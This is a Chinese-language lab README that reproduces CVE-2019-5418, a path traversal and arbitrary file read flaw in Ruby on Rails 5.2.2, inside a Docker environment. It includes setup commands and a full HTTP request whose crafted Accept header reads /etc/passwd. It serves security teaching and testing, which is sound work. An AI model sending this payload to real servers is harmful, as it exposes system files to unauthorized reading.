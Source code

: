 # Ruby on Rails 路径穿越与任意文件读取漏洞（CVE-2019-5418）

在控制器中通过`render file`形式来渲染应用之外的视图，且会根据用户传入的Accept头来确定文件具体位置。我们通过传入`Accept: ../../../../../../../../etc/passwd{{`头来构成构造路径穿越漏洞，读取任意文件。

参考链接：

- https://groups.google.com/forum/#!topic/rubyonrails-security/pFRKI96Sm8Q
- https://xz.aliyun.com/t/4448

## 环境搭建

执行如下命令编译及启动Rail On Rails 5.2.2：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:3000`即可看到Ruby on Rails的欢迎页面。

## 漏洞复现

访问`http://your-ip:3000/robots`可见，正常的robots.txt文件被读取出来。

利用漏洞，发送如下数据包，读取`/etc/passwd`：

```
GET /robots HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: ../../../../../../../../etc/passwd{{
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

成功读取：

![](1.png)
